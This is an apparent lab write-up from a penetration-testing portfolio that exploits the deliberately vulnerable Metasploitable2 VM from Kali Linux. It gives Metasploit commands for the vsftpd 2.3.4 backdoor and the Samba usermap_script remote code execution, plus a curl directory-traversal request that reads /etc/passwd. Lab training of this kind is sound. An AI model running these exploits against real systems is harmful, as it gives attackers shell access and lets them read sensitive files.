 # 🛠️ 04 - Exploitation Phase
**Target:** Metasploitable2  
**Environment:** Kali Linux  

---

## 🎯 Objective
Leverage known vulnerabilities in Metasploitable2 to gain access and demonstrate exploitation techniques in a controlled environment.

---

## 🔧 Exploitation Examples

### 📁 FTP (vsftpd 2.3.4 Backdoor)
**Vulnerability:** vsftpd 2.3.4 backdoor allows remote shell access.

**Metasploit Usage:**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <TARGET_IP>
exploit
```

Expected Outcome:

Remote shell gained

Able to interact with target filesystem

## 🌐 Samba (3.X RCE)
Vulnerability: Samba 3.X versions allow remote code execution.

Metasploit Usage:

```bash
use exploit/multi/samba/usermap_script
set RHOST <TARGET_IP>
exploit
```

Expected Outcome:

Command execution on target machine

Can explore directories or deploy payloads

## 🔐 Apache (2.2.8 Directory Traversal)
Vulnerability: Apache 2.2.8 directory traversal allows access to restricted files.

Manual Testing Example:

```bash
curl http://<TARGET_IP>/../../../../etc/passwd
```
Expected Outcome:

Contents of sensitive files retrieved

Verifies the traversal vulnerability

## 📝 Notes
Always operate within the isolated lab — never attack external systems

Document screenshots and logs for portfolio purposes

Focus on learning exploitation mechanics and payload delivery
